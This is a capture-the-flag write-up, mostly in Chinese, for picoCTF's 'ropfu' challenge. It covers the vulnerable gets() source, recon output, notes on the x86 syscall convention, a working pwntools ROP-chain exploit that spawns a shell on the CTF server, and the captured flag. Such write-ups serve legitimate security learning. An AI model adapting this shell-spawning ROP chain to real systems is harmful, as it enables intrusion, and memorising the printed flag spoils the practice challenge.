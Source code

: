 ```yaml
---
title: PicoCTF - ropfu
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - ropfu

## Background
ROP Chain
x86 Calling Convention:
[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
:::

## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
這一題很明顯要開個shell，我以為會像[^pico_pwn_guessing_game][^0x12_rop++]這兩題一樣，事實上概念完全一樣，但換到x86的32bits版本就不知道為啥一直沒有成功，後來有想到是忽略了calling convention的問題，和x86-64的版本不一樣，另外指令的選擇上也不太一樣，像64bits的system call會用syscall，但x86會用int 0x80處理[^syscall_in_x86]，另外寫入`/bin/sh\x00`的方式也和之前的不一樣，之前是call __libc_read function之前把暫存器的部分擺好，就直接跳到__libc_read的地方去，但在這邊是沒辦法成功的，看了其他人的wp[^ropfu_wp]，大部分的做法都是直接用rop把值寫到對應的section中，詳細如下:
```assembly
pop edx -> bss address
pop eax -> 0x6e69622f -> /bin
mov DWORD PTR [edx] eax
pop edx -> bss address
pop eax -> 0x0068732f -> /sh\x00
mov DWORD PTR [edx] eax
```
寫完`/bin/sh\x00`就直接call execve的syscall開shell

## Exploit - ROP Chain
```python!
from pwn import *

# r = process('./vuln')
r= remote('saturn.picoctf.net', 54107)
context.arch = 'amd64'

r.recvline()

pop_eax_ret = 0x80b073a
pop_edx_ebx_ret = 0x80583b9
bss_addr = 0x080e5050
mov_dword_ptr_edx_eax_ret = 0x80590f2
pop_ecx_ret = 0x8049e29
int_0x80 = 0x0807163f

'''############
Read /bin/sh\x00
############'''
# raw_input()
r.sendline(b'a' * 0x1c + 
           p32(pop_edx_ebx_ret) + p32(bss_addr) + p32(0) + 
           p32(pop_eax_ret) + p32(0x6e69622f) +
           p32(mov_dword_ptr_edx_eax_ret) + 
           p32(pop_edx_ebx_ret) + p32(bss_addr + 4) + p32(0) + 
           p32(pop_eax_ret) + p32(0x0068732f) +
           p32(mov_dword_ptr_edx_eax_ret) + 

           p32(pop_eax_ret) + p32(0xb) + 
           p32(pop_edx_ebx_ret) + p32(0) + p32(bss_addr) + 
           p32(pop_ecx_ret) + p32(0) + 
           p32(int_0x80)
)

r.interactive()
```

Flag: `picoCTF{5n47ch_7h3_5h311_1b5a4b40}`

## Reference
[^ropfu_wp]:[ PicoCTF 2022: Beginner's Compilation ](https://enscribe.dev/ctfs/pico22/beginners-compilation/#ropfu)
[^pico_pwn_guessing_game]:[PicoCTF - Guessing Game 1](https://hackmd.io/@SBK6401/SkxoLuwoh)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
[^syscall_in_x86]:[ 在 Linux 下寫組語, 透過 int 0x80 使用 system call ](http://guguclock.blogspot.com/2009/01/linux-int-0x80-system-call.html)